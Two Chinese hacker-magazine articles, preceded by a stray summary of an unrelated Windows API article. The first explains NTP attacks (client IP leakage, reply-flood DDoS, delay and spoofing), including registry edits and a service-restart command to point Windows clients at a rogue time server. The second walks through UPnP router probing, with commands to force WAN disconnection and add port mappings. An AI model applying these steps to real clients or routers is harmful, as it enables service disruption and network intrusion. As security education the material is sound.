本文主要以代码实例讲解了如何进行用户设置和服务管理，涉及的知识主要包括使用 `NetUserEnum` 函数枚举系统账户、`NetUserGetInfo` 函数获取指定账户的信息、`NetUserSetInfo` 设置信息，以及服务操作的一般流程和相关函数（`OpenSCManager`、`OpenService`、`QueryServiceConfig`、`ChangeServiceConfig`、`CloseServiceHandle` 等）。对于更多用户设置和服务管理操作，可查阅 MSDN 或进行交流。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：NTP、攻击

## 谋杀时间——NTP 攻击技术浅析

文/图 杨哲 Longas ZerOne

### 前言

2009～2010 年，很多领域的攻击技术都呈现了较为迅猛的发展，看看 Blackhat、Defcon 就知道，有针对 ATM 机的、攻击 DNS 的、破解 GSM 的等等。而 2011 年，个人觉得有一些隐性的攻击技术也将出现强烈的增长趋势，比如本文提及的针对 NTP 的攻击技术。（PS：关于 NTP 攻击技术，是笔者在无线 Hacking 技术方向上尝试针对 WAPI 设备的安全脆弱性测试时偶然注意到的，加上前一阵有同事问起了 NTP，所以笔者索性花些时间研究研究。又啰嗦了，看正文吧）

### 关于 NTP

简单来说，NTP 是一种确保我们计算机的时钟准确性的方法。

#### 1. 为什么要使用 NTP？

许多 Internet 服务依赖或极大地受益于本地计算机时钟的准确性，但是随着时间的推移，计算机的时钟可能会发生漂移。比如在局域网环境中，共享文件的计算机之间的时钟是否同步至关重要，因为这样才能使时间戳保持一致。对于启用了安全登录及操作日志记录的主机更是如此，如何有效地区分已登录的不同用户操作，时间就是至关重要的一环。

但是 PC 的时钟准确度很低，主要依靠主板 BIOS 电池来为其供电，一天下来可能会与准确时间差十几秒。这对于我们平时的生活没有什么影响，但是对于一些敏感度与安全度高的环境，影响就非常大。那么，解决这个问题就需要网络（Internet）授时系统。

#### 2. 什么是 NTP？

NTP 全称为 Network Time Protocol（网络时间协议），属于应用层协议（基于 UDP 传输，使用的端口号为 123），用来同步网络中分布式时间服务器和客户端之间的时间，使网络中的设备可以提供基于统一时间的应用。它的目的是在互联网上传递统一、标准的时间。一般认为，NTP 是一个跨越广域网或局域网的复杂的同步时间协议，它通常可获得毫秒级的精度。

NTP 的具体实现方案是在网络上指定若干时钟源网站，为用户提供授时服务，并且这些网站间应该能够相互比对，提高准确度。其中，作为时间服务器和客户端的各方都是相对的。一般来说，提供时间标准的设备为时间服务器，接收时间服务的设备为时间客户端。设备运行 NTP 之后，通过交换 NTP 报文，该设备既可以作为时间服务器提供时间标准，又可以作为时间客户端接收时间服务。

#### 3. NTP 的发展

NTP 最早是由美国 Delaware 大学的 Mills 教授设计实现的，从 1982 年提出到现在已发展了 20 多年，2001 年最新的 NTP v4 精确度已经达到了 200ms。对于实际应用，还有确保秒级精度的 SNTP（Simple Network Time Protocol，简单的网络时间协议）。

RFC2030 文档中描述的 SNTP，是为了那些不需要完整实现 NTP 复杂性的主机提供的，它是 NTP 的一个子集，通常让局域网上的若干台主机通过 Internet 与其他的 NTP 主机同步时钟，接着再向局域网内其他客户端提供时间同步服务。

更高级一些的 GPS 时间服务器是针对自动化系统中的计算机、控制装置等进行校时的高科技产品，时钟源设备从 GPS 卫星上获取标准的时间信号，将这些信息通过各种类型接口来传输给自动化系统中需要时间信息的设备（计算机、保护装置、故障录波器、事件顺序记录装置、安全自动装置、远动 RTU），这样就可以达到整个系统的时间同步。

美国国家标准技术研究院（NIST）从 20 世纪 90 年代初开始，进行 Internet 网上时间发播服务，至今已经设置了七八个时间服务专用网站，其他各国也在过去的十年间开通多个专用授时网站，在网上发播标准时间。目前世界上的授时网站已超过 100 多个。

#### 4. NTP 应用场景及重要性

- 网络管理。对不同设备采集来的日志信息、调试信息进行分析时，需要时间依据。
- 计费系统。计费系统要求所有设备的时钟一致。
- 完成某些功能。比如定时重启网络中的所有设备，要求所有设备的时钟保持一致。
- 多系统协同处理事件。为保证正确的执行顺序，多个系统必须参考同一时钟。
- 在备份服务器和客户端之间进行增量备份时，也要求各备份服务器和所有客户端之间的时钟同步。

图 1 所示为 TimeTools 的 SR 系列硬件 NTP Time Servers，主要用于大型企业内部网络环境。
图 1

#### 5. NTP 服务器架构

NTP 网络时间服务器的部署架构和设计遵循级联的原理，就如同域环境或者 CA 证书颁发机构一样，下一级 NTP 将从上一级 NTP 设备上获取最新的时间来进行调整和同步。

我们以 CERNET 教育网为例，先看看 NTP 系统结构的规划和管理原则，请参考图 2。

- 从上至下分为三级：核心节点、地区网络节点和省级网络节点。
- 第一级为 4 个核心节点，其间为 peer 关系。
- 第二级为 10 个地区级的网络节点，它们直接从第一级获得时间服务。
- 第三级为 28 个省级网络节点，它们只从第二级节点获得时间服务。
- 关键系统服务，如路由等，由核心节点提供服务。
- 校园网内设备可向第一级节点直接请求服务，但由其被分配地区内的几个临近节点提供服务。
- 校园网内设备也可向地区内的临近节点直接请求服务。

如图 2 所示，以 CERNET 教育网的时间服务结构为例，第一级为 4 个核心节点：清华、北邮、北大、东南大学。第二级直接从第一级获得时间服务，而第三级只从第二级节点获得时间服务。其中，N 级服务器的域名为 `sN[a-z].time.edu.cn`。表 1 所示为 CERNET 时间服务提供者列表，更多内容可以到 http://www.time.edu.cn/mem.htm 查询。

为便于大家查看及参考使用，我已经对这些 NTP 的当前状态进行了基本测试，并将结果列出。（注：对于 Linux 用户而言，将这些可用 NTP 地址直接添加在 `ntp.conf` 文件里即可）
表2

| IP 地址 / 域名 | 位置 / 从属机构 | 当前状态 |
|---|---|---|
| 210.72.145.44 | 中国国家授时中心 | 可用 |
| 202.120.2.101 | 上海交大 NTP | 可用 |
| 159.226.154.47 | 中国科学院国家授时中心的 NTP 服务器 | 已关闭 |
| ntp.api.bz | 一组 NTP 服务器集群，位于上海电信 | 可用 |
| 133.100.11.8 | 日本福冈大学 NTP | 可用 |
| clock.nc.fukuoka-u.ac.jp | 日本福冈大学 NTP | 可用 |
| ntp.nict.jp | 日本 NICT 情报通信机构公开 NTP | 可用 |
| 0.cn.pool.ntp.org | NTP POOL PROJECT 亚洲中国区 NTP | 可用 |
| 0.asia.pool.ntp.org | NTP POOL PROJECT 亚洲 NTP | 可用 |
| 1.asia.pool.ntp.org | NTP POOL PROJECT 亚洲 NTP | 可用 |
| 3.asia.pool.ntp.org | NTP POOL PROJECT 亚洲 NTP | 可用 |
| 7.asia.pool.ntp.org | NTP POOL PROJECT 亚洲 NTP | 可用 |

表1

| 级别 | 域名 | 地理位置 |
|---|---|---|
| 1 | s1a.time.edu.cn | 北京邮电大学 |
| 1 | s1b.time.edu.cn | 清华大学 |
| 1 | s1c.time.edu.cn | 北京大学 |
| 1 | s1d.time.edu.cn | 东南大学 |
| 1 | s1e.time.edu.cn | 清华大学 |
| 2 | s2a.time.edu.cn | 清华大学 |
| 2 | s2b.time.edu.cn | 清华大学 |
| 2 | s2c.time.edu.cn | 北京邮电大学 |
| 2 | s2d.time.edu.cn | 西南地区网络中心 |
| 2 | s2e.time.edu.cn | 西北地区网络中心 |
| 2 | s2f.time.edu.cn | 东北地区网络中心 |
| 2 | s2g.time.edu.cn | 华东南地区网络中心 |
| 2 | s2h.time.edu.cn | 四川大学网络管理中心 |
| 2 | s2j.time.edu.cn | 大连理工大学网络中心 |
| 2 | s2k.time.edu.cn | CERNET 桂林主节点 |
| 2 | s2m.time.edu.cn | 北京大学 |

根据 NTP POOL PROJECT 的监测结果，如图 3 所示，最近数年来，中国国内的已注册和处于服务状态的 NTP 服务器一直保持着增长趋势。
### 6. 国内外主要的 NTP 服务器地址

为了同步用户的系统时钟，首先需要找到一个 NTP 服务器。以前由于国内没有可用的时间服务器地址，我们只能依靠 Windows 系统默认的 Windows 或 NIST 等境外的时间服务器同步时间，但存在着访问堵塞、时间延迟大（同步精度低）等因素的影响。而现在国内一些企业/机构的网络管理员或 ISP 都可以提供这样的 NTP 服务器，比如中国国家授时中心就发布了一个时间服务器地址。另外，也有一些在线的公开的 NTP 服务器列表，只要用 Google 肯定可以找到，用户从中选一个较近的 NTP 服务器即可。

那么，除了表 1 列出的 CERNET 位于国内各大学的 NTP 服务器外，还有一些常用的 NTP 服务器信息，如表 2 所示。为了方便大家查看及参考使用，我已经对这些 NTP 的当前状态进行了基本测试，并将结果列出。

### NTP 工作机理

管理员手工修改网络设备的系统时钟，不但工作量巨大，而且不能保证时钟的精确性。而 NTP 可以快速高精度地实现网络中设备的时间同步，具有如下的明显优势：

- 采用分层（Stratum）的方法来定义时钟的准确性，可以迅速同步网络中各台设备的时间。
- 支持访问控制和 MD5（Message Digest 5）强化验证。
- 支持采用单播、组播或广播方式发送协议报文。

#### 1. NTP 工作模式

NTP 最主要的工作模式就是服务器/客户端模式。在服务器/客户端模式下，只需要对客户端进行配置，然后由客户端与服务器进行同步，而服务器无法与客户端进行同步。服务器/客户端模式的工作过程如下：

- 客户端发送同步请求报文。客户端向服务器发送同步请求报文，报文中的 Mode 字段设置为 3（客户端模式）。
- 服务器端发送应答报文。服务器端收到请求报文后，自动工作在服务器模式，发送应答报文，报文中的 Mode 字段设置为 4（服务器模式）。
- 客户端同步服务器时钟。收到应答报文后，进行时钟过滤和选择，并与已选择的服务器进行同步。

#### 2. NTP 的 MD5 密钥验证模式

NTP 的验证和路由的验证不同，路由验证的目的是要让对方确认自己的身份然后建立安全通信通路；NTP 验证要验证的是时钟源的权威性，因为 NTP 中最重要的是要收到最准确的时钟信息，不能让别人随便就可以修改自己的时钟信息。

从这个角度上说，NTP 验证开启了以后，验证的实际工作只是发生在需要同步的那个设备上。在客户端模式中就是只有客户端在进行验证工作。验证什么？验证给自己发时钟同步的时钟源是不是合法的时钟源。

下面是一段典型的在 Cisco 设备下配置 MD5 验证的命令。

```text
Router#config terminal
Enter configuration commands, one per line. End with CNTL/Z
Router(config)#ntp authenticate
Router(config)#ntp authentication-key 10 md5 MySecretKey
Router(config)#ntp trusted-key 10
Router(config)#^Z


```

换句话说，为防止对时间服务器的恶意破坏，NTP 使用了加入 MD5 元素的识别（Authentication）机制，检查来对时的信息是否真正来自所宣称的服务器，并检查资料的返回路径，以提供对抗干扰的保护机制。这样做确实有效地提高了客户端更新时间过程的安全性。

#### 3. NTP 客户端请求/连接最大数

对于 NTP 服务器（软/硬件）来说，随着性能的不同，能够提供的服务质量也存在着不同。通常比较重要的功能参数有 NTP Requests/s（即每秒 NTP 请求数）和 Max Number of NTP Client（最大支持 NTP 客户端数量），这两个参数直接反映出 NTP 服务器的承载能力。而攻击者在测试 DDoS 攻击工具的时候，也将以这两个参数为主要衡量手段。表 3 所示为某款 NTP 硬件设备产品的参数样例。

| 内容 | 产品1 | 产品2 | 产品3 | 产品4 |
|---|---:|---:|---:|---:|
| NTP Requests / Second（每秒 NTP 请求量） | >200 | >1,000 | >1,000 | >2,500 |
| Maximum Number of NTP Clients（最大支持 NTP 客户端数量） | >12,000 | >64,000 | >64,000 | >160,000 |

由表 3 可以看到，随着配置和设计的不同，不同类型 NTP 服务器的处理能力是不同的。也就是说，很多 NTP 服务器其实没有想象得那么强壮。

### NTP 面临的攻击及安全隐患

> 德国物理学家海森堡于 1927 年提出了著名的海森堡测不准原理（Uncertainty Principle），又名“测不准原理”“不确定关系”，这是量子力学的一个基本原理。该原理指出：一个微观粒子的某些物理量（如位置和动量，或方位角与动量矩，还有时间和能量等），不可能同时具有确定的数值，其中的一个量越确定，另一个量的不确定程度就越大。

测不准原理说明了我们的科学度量能力在理论上存在的某些局限性，因而具有重大意义。而现在 IT 行业所追求的两大极致目标：便利性和安全性，也是一对无法同时满足的矛盾。为了安全性，人们必须牺牲一些便利性；而若为了突出便利性，人们就不得不冒一定风险。NTP 就是这样一个典型的例子。

#### 1. NTP Client 信息泄露攻击

在判断内部 IP 分布及主机存活状态时，绝大多数人的第一反应是应该采用端口扫描、ARP 扫描、NETBIOS 探测等方式实现，个别人也会想到使用 p0f 之类的被动式工具来收集内网主机信息的方法。不过这里要说明的是一种极为特殊的手法，即通过向 NTP 服务器查询已更新客户端来间接获取内部 IP，这也是一些高级黑客在限制较高的环境中会使用到的技巧之一。

安全研究人员 HD Moore 发现，在默认情况下，NTP 服务器允许用户查询更多的资料。比如使用特定的诊断工具就可以获得从 NTP 服务器上进行时间更新的最近 600 个客户端 IP 地址。换句话说，就是使用一个请求方式，你就可以得到一个中型网络中的所有 IP 地址。如果有一个 NTP 服务器被放置在 DMZ 中，则外部攻击者将可能获得内部网络的全部 IP 地址。

- （1）在接入内部的一个 Linux 客户端下使用 `ntpdate` 命令向内部 NTP 服务器 `192.168.7.10` 发送 NTP 查询请求。
- （2）向 NTP 服务器查询之前单位时间内进行 NTP 更新的客户端记录并保存到本地。
- （3）查看该记录并归纳出刚才进行更新的主机 IP，至此内部主机 IP 就暴露了。
#### 2. NTP Reply Flood

让我们接着刚才的思路，如果说只要向 NTP 服务器发送一个特殊的 UDP 查询请求，NTP 服务器就会向我们回复 600 个 IP 信息作响应。那是不是可以这样认为，从理论上而言，只要能够伪造源地址一次性发送 10 万个查询请求，NTP 服务器也会向我们回复 6000 万个信息作响应（注意，不一定是 6000 万个数……）。据报文）。而如果攻击者将发送源地址都刻意设置为某一对象的话，该对象将收到海量 NTP 数据，从而形成 DDoS 攻击流。这就是 NTP Reply Flood 攻击思路，而关于 NTP 的承受能力，大家可以参考一下前文的内容。

图 5 所示为针对特殊请求的 NTP 回复报文结构分析，我们可以看到出现了“private use”这样有意思的 Mode 说明。不过需要注意的是，我这里使用的是 NTPv2 版本的实验报文，更高版本的 NTP 报文是有所不同的。如前所述，此类原始报文的分析和改进将有助于攻击者开发出具针对性的 DDoS 攻击工具。
图 5

图 6 所示为针对日本福冈大学 NTP 的发包测试，目标 NTP 服务器完美地回复了 500 多条客户端更新数据。通过使用数量庞大的客户端，再配以特殊的算法不间断地重复发送测试报文，即可在单位时间内使得 NTP 服务达到一个请求处理的峰值，从而引发 CPU 过载、服务错误等后果。
图 6

## 3. Delay attacks 时间同步延时攻击

正常情况下，配置了 NTP 更新的客户端与 NTP 服务器之间是会自动同步的。那么时间同步延时是什么意思呢？举个例子，假设客户端在 11:00:00 向 NTP 服务器发送一个请求，那么服务器在 11:00:01 可以收到该请求。服务器处理完请求并在 11:00:05 发送了响应报文。而在该响应报文返回至客户端的途中，有攻击者使用了一些手段来将其故意延时，使得客户端在 11:00:36 才能收到这个报文。此时的客户端若计算与 NTP 服务器之间的偏移量时，会显示出现 15s 的误差。这说明客户端上时钟显示的 11:00:36 对应的是 NTP 服务器上的 11:00:21，换句话说，就是使得客户端的时钟延误了 15s。

如图 7 所示，攻击者可以对某个企业的网络进行针对性的 NTP 同步延时攻击，比如对其上层网络设备做一些手脚，从而使得合法的 NTP 更新数据出现较大延时，而该企业的网络设备及服务器就有可能出现一些不容易排查的错误。
图 7

如图 8 所示，在使用 ntpdate 从北京、上海、日本等地的官方/公开 NTP 服务器上获取时间时，可以清楚地看到这些 NTP 之间不同的时间偏移量，不过一般情况下都小于 0.1s，个别甚至小于 0.01s。在很多环境下，这样的误差是在允许范围内的。但如果时间误差超过了允许的范围，比如达到了 5min 以上，甚至近 10min，则将会导致严重的错误。比如通信运营商的计费系统，在处理同一时间段计费单据时，突然出现了隶属于前一个时间段或者后一个时间段的费用数据，此时在写入数据库计算时，将有可能出现大量重复计费、覆盖原数据、程序出错等各种问题。若是 WAP 网关出现此类问题的话，甚至会由此导致内部其他业务系统接连出错。
图 8

#### 4. NTP Time Spoof 欺骗攻击

显然，攻击者也可以构建自己的 NTP 服务器，再配以欺骗手段来实现对指定目标网络的攻击目的。这样，原本通过外部官方 NTP 服务器进行时间更新的客户端，就面临获取到虚假时间的可能。不过这和 NTP 的协议版本也有着较大关系，新版本的 NTP 协议已经改进了很多不足，利用新版本 NTP 实施欺骗攻击也是有些难度的。图 9 所示为 NTP 欺骗攻击原理，通过对 UDP 端口 123 的重定向攻击可以很容易地将请求转发到伪造的 NTP 服务器上去。限于篇幅，本文就不详细讲述具体的攻击步骤了。
图 9

当然，也可以编写一些特殊的脚本或者蠕虫病毒来实现对终端的 NTP 更新时间服务器地址的修改，比如修改 Windows 客户端默认 NTP 服务器的更新地址其实并不需要太多命令，只需要下面几步即可，而且这样的命令很容易改成批处理。

- 1. 修改注册表中 NTP 客户端设置。  
  在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient` 中，修改下述键值：
  - `SpecialPollInterval` 值修改成十进制 600（单位为秒，600 为 10 分钟）
  - `SpecialPollTimeRemaining` 值修改成 `[时间同步服务],0`。比如：`192.168.1.1,0`
- 2. 更改默认时间更新服务器地址。  
  `HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\DATETIME\SERVERS\default`
- 3. 重启 Win32Time 服务。

```
net stop w32Time && net start w32Time


```

若是 Linux 系统的话，只需要修改 `/etc/ntp.conf` 文件即可达到同样的目的，这里就不再阐述。还有一些漏洞可用于攻击 NTP 服务器，比如 NTP 4.2.4p8 之前的版本都存在一个严重漏洞，即 NTP MODE_PRIVATE 模式报文 DOS 攻击漏洞。攻击者将有可能利用该漏洞构建伪造的 Request 报文，从而发起一个特殊 DDoS 攻击来迫使两个 NTP 相互耗尽彼此的 CPU 资源，或者使得 Log 记录文件写满磁盘。大家可以参考一下 CVE-2009-0021 的通告内容。

### 延伸攻击技术

#### 1. 更富有意义的 DNS 攻击

除了上面提及的一些思路外，由于很多 NTP 服务器集群为了方便后台的维护和切换，仍需要域名解析服务来协助客户端连接（比如本文前面表 2 中提到的提供 NTP 服务的域名），这样的话，如图 10 所示，攻击者就完全可以采用 DNS 欺骗的方式，直接将该域名引到伪造的 NTP 服务器上，这样客户端发送的合法时间更新请求将被重定向到图 10 中所示的伪造 NTP 服务器上，此时获取的时间就有可能导致内网的异常。

#### 2. 破坏微软域环境

在微软的安全体系中，域（domain）作为信任区域的安全边界一直被广泛地部署在微软的各种网络服务架构中，而微软的 Forest PDC（林根域控制器）在默认情况下则会自动成为整个域环境的 NTP 服务器。所有加入域中的主机会自动将时间服务器地址修改为林根域控制器的 IP，域用户在登录到域中后，本机当前时间就会自动调整为和 PDC 一致的时间。
图 10

这样的话，我们就能发现一个问题：若这些主机的默认 NTP 服务器不是当前域的域控制器，而是被强制修改为其他的 NTP 服务器（比如攻击者自行搭建的 NTP 服务器），那么，当时间偏差比较大的时候，是否就意味着将出现无法正常登录的情况呢？事实证明，这种攻击方式是可行的，不过这不是单纯的欺骗攻击，还包括一些重定向和报文的伪造技术。尽管攻击有些不易，但相信一个具备深厚微软技术底子（MCSE + Security+）的安全人员就能做到这一点。

#### 3. WAPI 运营商无线网络设备攻击

用过国标 WAPI 加密无线网络的朋友都知道，很多时候之所以无法正常使用 WAPI-PSK 预共享密钥/口令认证模式，就是因为 WAPI 设备的时间出现了问题。打开 WAPI 设备的管理界面，其中就有一项是设置 AP 自动与 Internet 时钟服务器同步，也可以手动设置 AP 的时间。若 AP 里内置的时间同步服务器地址不正确，只要把它换成中国国家授时中心的 IP 地址（210.72.145.44），并设置 AP 自动从 Internet 上获取时间，然后根据 AP 里显示的时间，把支持 WAPI 的手机内部时间也做调整，手机马上就会显示 WAPI 无线网络连接成功。这也是 WAPI 无线网络设备的主板上都有一块电池的原因，它为主板持续供电，来保证系统时钟的运行。

为什么 WAPI 对时间的要求这么严格？时间对于民用无线 WIFI 来说根本就不是问题，这就又回到了 WAPI 的本质上去了，WAPI 是为运营级的电信运营商设计开发的。电信运营商对基站工作的切换、漫游等都需要精确的时间控制，因此时钟同步问题对于移动通信的重要性不言而喻。而 WAPI 恰恰是为全国漫游的无线网络准备的。所以，也许其他手段对于 WAPI 设备来说并不足以造成严重危害，但特定的 NTP 攻击，对于 WAPI 设备却是不良影响最大的手段之一。

#### 4. 网上银行消费延时攻击

关于这种攻击具体可参考本文中提及的延时攻击原理。大家只需要想象一下当我们在操作网上银行进行消费时，长时间没收到消费成功的响应或者显示超时失败，而事实上已经被消费，会是一个什么样的概念。

## 小心经

记得高尔基说过：世界上最快而又最慢，最长而又最短，最平凡而又最珍贵，最易被忽视而又最令人后悔的就是时间。而时间也的确会在我们没有过多留意的时候，悄悄地改变，尽管可能并不一定每次都是自然改变。

想象一下，假如有一天，你突然发现：自己主机上的时间居然和交换机上的时差了 30 分钟，而内部核心服务器上数据库记录的操作日志文件居然显示是明天的！因为最新病毒库的发布时间要落后于自己机器上的时间，所以企业版杀毒软件甚至拒绝更新！！

更夸张的情况——原本正常的内部域环境，居然由于域控制器上的时间与网络设备之间的误差超出 1 个小时，导致全部内网域用户均无法正常登录！！

自己企业全面部署的 WAPI 无线设备出现莫名其妙工作异常，但是查看日志和检查设备都没有发现什么明显的问题！！

也许危言耸听了一点，不过我想，对于很多朋友来说，若是由于时间的缘故，让自己多上了数小时的班，却没有加班费，这才是最不能容忍的……

前置知识：无  
关键词：UPnP、攻防
## UPnP Hacking 攻防技术初探

文/图 杨哲 Longas ZerOne

### 前言

以前就觉得在 UPnP 上有很多文章可以做，我们也常常能在迅雷等这样的下载工具中看到其支持 UPnP 穿透技术，当然也会在一些木马上看到这样的设置。但是有很多朋友对于 UPnP 攻击技术还并不了解，本文就带大家走近 UPnP 一探究竟。

### 关于 UPnP

#### 1. 什么是 UPnP

Universal Plug and Play，缩写为 UPnP，意为通用即插即用。要说计算机外设的即插即用（Plug and Play，缩写 PnP），大家都很熟悉，但对通用即插即用，多数人会感到一头雾水。所以我们先了解何谓 UPnP。

这里引用微软给出的解释：通用即插即用是一种用于 PC 和智能设备（或仪器）的常见对等网络连接的体系结构，尤其是在家庭中。UPnP 以 Internet 标准和技术（例如 TCP/IP、HTTP 和 XML）为基础，使这样的设备彼此可自动连接和协同工作，从而使网络（尤其是家庭网络）对更多的人可访问。

（据说 UPnP 也是物联网发展中的一个小技术点，不知是否是真的）

#### 2. UPnP 架构

关于 UPnP 的基本设计架构如图 1 所示。
其中一些相关的术语解释如下。

- SSDP：“简单服务发现协议”，即英文“Simple Service Discovery Protocol”的缩写，该协议定义了如何在网络上发现网络服务。SSDP 也规定了存放在 XML 文件中的信息格式。SSDP 信息的传送是依靠 HTTPU 和 HTTPMU 进行的。不论控制点，还是 UPnP 设备，工作中都必然用到 SSDP。设备接入网络之后，要利用它向网络广播自己的存在（广播的信息中还有设备位置的描述），以便尽快与对应的控制点建立联系。控制点则利用 SSDP 来搜索自己将要控制的设备在哪里，并且可以排除已经存在的设备和控制点——只为新近的或尚未“联络”上的双方服务。
- GENA：这是事件消息采用的格式，是“Generic Event Notification Architecture”（通用事件通知体系）的缩写。
- SOAP：简单对象访问协议。通过该协议传递控制消息并返回设备对消息的响应结果。它利用 XML 和 HTTP 进行远程调用。使用防火墙或别的网络安全措施不会影响 SOAP 的使用。
图 2

### UPnP 现状

在默认情况下，几乎有 95% 以上的无线网络设备都开启了 UPnP 功能，而绝大多数用户对此毫无察觉，或者由于根本就不明白这个 UPnP 有什么用而忽视该选项。图 3 所示为 DLINK 无线路由器的 UPnP 配置界面，在默认情况下，在“UPnP 设置”处配置为“激活”。
图 3

正因为如此，所以基本上市面可见的下载工具里，都支持 UPnP 穿透功能，因为在默认情况下，防火墙等都会允许此类数据的通过。比如图 4 所示的迅雷 7 的“网络设置”页面中，默认情况下明确启用了 UPnP 支持。
图 4

## UPnP Hacking 探测器

虽然在几乎所有的无线路由器上都会使用 UPnP，但绝大多数人并不了解如何通过 UPnP 来对无线路由器进行攻击。下面就使用一款基于 Python 开发的 UPnP 客户端工具进行实战操作，该工具可用于搜索、查询，以及与 UPnP 设备交互，尤其是 Internet 网关设备（也就是我们常说的路由器）。该工具可担负起对现有网络中启用 UPnP 的设备的审计工作，包括主动与被动式探测 UPnP、查询特定的设备/服务、向 UPnP 服务/设备发出指示等。

- 1. 扫描及确认开启 UPnP 的网络设备  
  对于攻击者而言，第一步当然是需要扫描开启 UPnP 的无线设备。需要说明的是，扫描时间会根据无线设备不同而不同。在输入 msearch 命令后，稍等片刻，即可出现如图 5 所示内容。一般来说，家庭及办公用小型无线网络环境中只有 1 台无线路由器，所以一旦扫描出该无线路由器后，可以使用 Ctrl+C 快捷键将扫描终止。
- 2. 获取远程设备参数及资料  
  当已经扫描出网络内开启 UPnP 的无线路由器后，可以使用一系列命令来获取更进一步的资料，比如可以发送一些指令从 UPnP 获取该网络设备的基本信息、IP 地址及端口等更多信息。
图 5

如图 6 所示，可看到该 DLINK SOHO 路由器的 IP 地址、XML 文件的存放位置及 UPnP Server 类型等信息。这里该路由器内置 UPnP Server 显示为 IGD-HTTP/1.1 UPnP/1.0 UPnP-Device-Host/1.0。
图 6

类似的，如图 7 所示，在对日本的 BUFFALO 无线路由器进行测试时，可清楚地查看到其 IP 地址、XML 文件的存放位置及 UPnP Server 类型等信息。这里 UPnP Server 显示为 linux/2.4.20，UPnP/1.0，Intel SDK for UPnP devices/1.2。也就是说，攻击者甚至可以从中看到该无线路由器的 Linux 内核版本。
图 7

#### 3. 查看详细的无线路由器参数及资料

除了查看基本的信息外，还可以通过 UPnP 显示详细的网络设备资料，比如公司名称、产品类型、设备型号、内部设计号等。该参数将有助于攻击者判断出具体的网络设备型号。为了方便读者查看及参考，下面以几款不同厂商不同型号 SOHO 用无线路由器为例，分别给出具体截图。

IPTime 无线路由器：如图 8 所示，在最上面“InternetGatewayDevice”标识下，可以看到在“manufacturerURL”即制造商网址处给出了 iptime 厂商的中国官网，而在“modelName”处显示为 ipTIME N100R，即该设备的具体型号。在“friendlyName”和“modelDescription”处，可以看到显示为“Zioncom ipTIME N100R Gateway”，即 iptime 的无线路由器产品，该型号可以在网上直接查到。知道了具体型号，对于攻击者而言，就可以根据型号进行其他漏洞的查询。
图 8

- Belkin 无线路由器：如图 9 所示，在最上面“InternetGatewayDevice”标识下，可以看到在“manufacturerURL”处给出了 Belkin 厂商的官网，而在“modelName”处显示为“Enhanced Wireless Router”，即强化型无线路由器。在“modelNumber”处，可以看到显示为“F6D4230-4 v1”，即为 Belkin 的无线路由器产品，该型号也可以在网上直接查到。
- 该型号无线路由器已经被曝光存在安全隐患，所以知道了具体型号，对于攻击者而言，就可以根据型号进行安全漏洞的查询。

漏洞查询。在前几期的黑防文章里，我已经提到了这方面的内容。
图 9

### UPnP Hacking 渗透篇

下面讲述如何通过 UPnP 修改 SOHO 路由器上的网络配置信息、端口映射、转发状态等内容。在获取到设备列表后，就可以使用下述命令来获取远程设备支持的服务/命令列表。图 10 所示内容为远程设备支持的全部服务/操作列表。
图 10

在获知了支持的服务后，就可以发送特定的指令来使路由器执行特定的操作。可以执行的操作包括获取外网 IP、建立映射端口等。由于支持的具体命令有很多，所以下面举几个典型的例子以供大家参考。

#### 1. 获取外网连接状态

攻击者可以通过 UPnP 获取当前路由器外部网络的连接状态，具体命令如下：

```
host sendto WANConnectionDevice WANIPConnection GetStatusInfo
```

输入命令时注意区分大小写，回车后可看到如图 11 所示的内容。其中，在“NewConnectionStatus”处显示为“Disconnected”，即当前路由器没有与外部网络连接。

当路由器与外部网络有物理连接并接通时，则可看到如图 12 所示的内容。其中，在“NewConnectionStatus”处显示为“Connected”，即已经与外部网络建立连接。

#### 2. 查看路由器外网连接 IP

攻击者可以通过 UPnP 获取当前路由器外部网络连接 IP 地址，具体命令如下：

```bash
host send 0 WANConnectionDevice WANIPConnection GetExternalIPAddress


```

输入命令时注意区分大小写，回车后可看到如图 13 所示的内容。其中，在“NewExternalIPAddress”处显示为“10.0.0.129”，这就是路由器接入的外部地址，也就是真正的企业/机构内部网络地址。
若该路由器没有和外网连接，只是被当作 Hub 使用或者根本就是一个独立的测试网络，则在“NewExternalIPAddress”处会显示为“0.0.0.0”，如图 14 所示。
#### 3. 强制路由器断开外部网络

攻击者可以通过 UPnP 向当前路由器发送强制断开外部网络连接的命令，可用于恶意阻断攻击、骚扰战术。具体命令如下：

```bash
host send 0 WANConnectionDevice WANIPConnection ForceTermination


```

输入命令时注意区分大小写，回车后可看到出现“success”字样，提示成功。若路由器拒绝该参数，则会出现如图 15 所示的内容。其中，在“SOAP error message”处显示为“Invalid Action”，即无效指令。
#### 4. 添加端口映射

攻击者可以通过 UPnP 添加端口映射，具体命令如下：

```bash
host send 0 WANConnectionDevice WANIPConnection AddPortMapping
```

输入命令时注意区分大小写，回车后可看到如图 16 所示的内容。其中，将会出现提示，只需要按照要求一步步进行设置即可。

#### 5. 查看端口映射状态

在成功添加完端口映射后，攻击者可以通过 UPnP 获取当前路由器端口映射情况，具体命令如下：

```bash
host send 0 WANConnectionDevice WANIPConnection GetSpecificPortMappingEntry


```

输入命令时注意区分大小写，回车后可看到如图 17 所示的内容。
#### 6. 查看路由器 NAT 状态

攻击者可以通过 UPnP 获取当前路由器 NAT 状态，具体命令如下：

```bash
host send 0 WANConnectionDevice WANIPConnection GetNATRSIPStatus


```

输入命令时注意区分大小写，回车后可看到如图 18 所示的内容。其中，在“NewNATEnabled”处显示为“1”，即当前已启用。
图 18

### UPnP Hacking 攻击篇

在熟悉了 UPnP 后台配置参数后，就可以与很多种不同的攻击方式配合使用来达到目的。国外有安全小组曾发布了一种通过 UPnP 功能来渗透网络设备的方法，只要让内部用户访问一个恶意的 SWF 文件，该小组成员就能够通过该 Flash 中的 URLRequest 参数获取到 UPnP 的控制位，从而实现从外部重新配置该网络设备的目的。

首先分析不同类型 SOHO 路由器的请求报文内容及对应参数设置。我举一个例子，以下为通过嗅探捕获到的 ipTime 无线路由器开启 UPnP 功能的 POST 内容：

```http
POST http://192.168.7.1/cgi-bin/timepro.cgi?menu=background&smenu=reboot&act=R&commit=u_pnp&hostname=&autosaving=1&fakedns=0&nologin=0&vbm_popup=1&upnp=1


```

